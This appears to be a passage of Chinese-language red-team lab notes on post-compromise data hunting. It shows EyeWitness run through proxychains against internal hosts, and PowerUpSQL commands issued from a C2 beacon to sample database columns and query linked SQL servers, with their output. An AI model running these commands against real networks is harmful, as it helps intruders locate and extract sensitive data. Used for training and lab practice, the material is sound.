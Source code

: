```

> EyeWitness 旨在截取网站的屏幕截图，提供一些服务器标头信息，并在已知的情况下识别默认凭据。

> EyeWitness 设计为在 Kali Linux 上运行。它会自动检测您使用 -f 标志提供的文件，作为每个新行上带有 URL 的文本文件、nmap xml 输出或 nessus xml 输出。--timeout 标志是完全可选的，它允许您在尝试呈现和截屏网页时提供最大等待时间。

```
root@kali:/opt/EyeWitness/Python# cat /root/targets.txt
10.10.17.71
10.10.17.25
10.10.17.68

root@kali:/opt/EyeWitness/Python# proxychains4 ./EyeWitness.py --web -f /root/targets.txt -d /root/dev --no-dns --no-prompt

Starting Web Requests (3 Hosts)
Attempting to screenshot http://10.10.17.71
[*] WebDriverError when connecting to http://10.10.17.71
Attempting to screenshot http://10.10.17.25
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.17.25:80  ...  OK
Attempting to screenshot http://10.10.17.68
[*] WebDriverError when connecting to http://10.10.17.68
Finished in 12.967030048370361 seconds
```

```
PS C:\Users\Administrator\Desktop> pscp -r root@kali:/root/dev 。
```

![alt alt](https://rto-assets.s3.eu-west-2.amazonaws.com/data-hunting/eyewitness-report.png?width=1920)

# Databases

使用工具：PowerUpSQL

```Get-SQLColumnSampleDataThreaded```在一个或多个实例中搜索列名中包含特定关键字的数据库
```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "project" -SampleSize 5 | select instance, database, column, sample | ft -autosize

Instance                     Database Column      Sample         
--------                     -------- ------      ------         
srv-1.dev.cyberbotic.io,1433 master   ProjectName Mild Sun       
srv-1.dev.cyberbotic.io,1433 master   ProjectName Warm Venus     
srv-1.dev.cyberbotic.io,1433 master   ProjectName Grim Lyric     
srv-1.dev.cyberbotic.io,1433 master   ProjectName Precious Castle
srv-1.dev.cyberbotic.io,1433 master   ProjectName Fine Devil  
```

```Get-SQLQuery```搜索链接
```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select * from information_schema.tables')"
